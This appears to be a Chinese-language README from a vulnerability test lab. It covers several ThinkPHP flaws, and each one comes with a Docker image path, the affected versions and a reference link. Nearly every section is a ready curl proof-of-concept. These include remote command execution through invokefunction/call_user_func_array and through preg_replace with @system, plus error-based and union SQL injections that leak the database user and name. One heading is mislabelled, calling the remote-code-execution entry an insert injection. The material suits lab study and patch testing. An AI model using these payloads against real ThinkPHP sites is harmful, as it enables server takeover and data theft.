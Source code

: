 ## Thinkphp 5.0.16 insert 注入漏洞

测试镜像

* src/thinkphp/2.0/

影响范围

* 5.1.X - 5.1.31, 5.0.X - 5.0.23

Poc

```
curl -g '127.0.0.1/public/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id'
```

参考文档

* [thinkphp5框架缺陷导致远程代码执行](https://mp.weixin.qq.com/s/oWzDIIjJS2cwjb4rzOM4DQ)

## Thinkphp preg_replace 代码执行漏洞

测试镜像

* src/thinkphp/2.0/

说明

* 当 `URL_PATHINFO_MODEL` 设置为 `1` 时存在代码执行漏洞

Poc

```
curl -g 'http://127.0.0.1/index.php/module/action/param1/$%7B@system($_POST[0])%7D' -d 0=ls
```

## Thinkphp 5.0.16 insert 注入漏洞

测试镜像

* src/thinkphp/5.0.16/

影响版本

- Thinkphp < 5.0.16

参考文档

* [ThinkPHP框架 5.0.x sql注入漏洞分析](https://paper.seebug.org/564/)

Poc

```
curl '127.0.0.1/public/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```



## Thinkphp3.2.3 update注入漏洞

测试镜像

- src/thinkphp/3.2.3/

影响版本

- Thinkphp < 3.2.3

参考链接

- [Thinkphp3.2.3最新版update注入漏洞](https://paper.seebug.org/573/)

Poc

```shell
curl 'http://172.17.0.2/index.php/home/user?user\[0\]=bind&user\[1\]=money_0%20or%201%20and(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))&money=qwe'
```

返回内容包含sql报错：XPATH syntax error: '~root@localhost~'



## Thinkphp exp表达式注入漏洞

测试镜像

- src/thinkphp/3.2.3/

影响版本

- Thinkphp 3.x 5.x

参考文档

- [ThinkPHP框架架构上存在SQL注入](https://www.secpulse.com/archives/29826.html)

Poc

```shell
curl 'http://172.17.0.2/index.php/home/user/exp_inject?id\[\]=exp&id\[\]=%3d888%20union%20select%201,database(),3%23'
```

